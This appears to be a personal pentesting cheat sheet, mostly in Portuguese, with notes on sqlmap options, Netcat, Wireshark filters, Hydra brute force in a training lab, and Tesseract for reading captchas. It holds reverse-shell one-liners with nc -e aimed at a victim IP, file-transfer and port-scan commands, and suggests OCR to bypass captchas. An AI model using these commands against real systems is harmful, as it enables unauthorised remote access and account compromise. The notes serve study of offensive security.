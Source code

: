 !Threads no sqlmap se refere a quantidade de requisições que ele faz em um instante de tempo, quanto maior o número passado mais poder computacional será exigido, pode ser definido por --threads \[1-10\]
! --crawl=2 caso você informe alguma url sem nenhum parametros - ao invés de "\<url\>/category=", você informa "\<url\>" - o método crawl irá fazer a busca pelos parâmetros ele encontrar na página  
! Para melhorar a performance informe a base de dados usada (se a caso já souber) com --dbms PostgreSQL, o sistema operacional usado com --os, --batch para o sqlmap não ficar fazendo perguntas na tela.

https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.codigofonte.com.br/artigos/a-historia-do-sql-injection
https://www.alura.com.br/artigos/sql-injection-proteja-sua-aplicacao

#Netcat:
```bash
$ nc.exe -nlvp 4444 -e cmd.exe  # Create a reverse shell with Ncat using cmd.exe on Windows nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe
$ nc -nv $ip_victim 4444 -e /bin/bash # Create a reverse shell with Ncat using bash on Linux
 nc -lvp 4444 (victim) 
$ nc -lvp 9000 # Listening a TCP/IP connection, -l of listening, -v verbose and -p of port.
 nc 127.0.0.1 9000             # To connect to the port that is listening 
$ nc -nv $ip 4444 < file        # Send a file using netcat
$ nc -nlvp 4444 > incoming.exe  # Receive a file using netcat
$ nc -zv <ip> 1-90              # Nc will scan port 1 until 90 
```

#Wireshark: 
	https://www.wireshark.org/  - Wireshark is the world’s foremost and widely-used network protocol analyzer. It lets you see what’s happening on your network at a microscopic level and is the de facto (and often de jure) standard across many commercial and non-profit enterprises, government agencies, and educational institutions. Wireshark development thrives thanks to the volunteer contributions of networking experts around the globe and is the continuation of a project started by Gerald Combs in 1998.
       `*ip.addr==algum_ip   => para filtrar no wireshark`
       #SYN => Synchronization
       #ACK => Acknowledgement. ACK means that the machine sending the packet with ACK is acknowledging data that it had received from the other machine. 
       #PSH => PSH is an indication by the sender that, if the receiving machine's TCP implementation has not yet provided the data it's received to the code that's reading the data (program, or library used by a program), it should do so at that point. 
       
#Hydra: 
      Software de Bruit Force
      !Em um lab da Alura, temos o username "cake" e a password "123456" que informamos. Além disso, há um anticsrftoken. Ou seja, a cada requisição, será recebido um token utilizado contra ataques de CSRF. Dessa forma, cada usuário tem seu próprio token, evitando que outras pessoas façam a requisição por ele (como é feito no CSRF). O Hydra faz diversas requisições com username e password e pode ser que ele esteja usando o mesmo token para todas elas, por isso o ataque não funciona mais. Como o Burp é capaz informar um token diferente para cada requisição e fazer a força bruta, vamos utilizá-lo em vez do Hydra, para tentar entrar no sistema.
      
#Tesseract:
	O Tesseract é uma IA utilizada para reconhecer caracteres a partir de um arquivo de imagem. Pode ser utilizada para descobrir o texto de captchas de imagens. 
	https://github.com/tesseract-ocr/tesseract

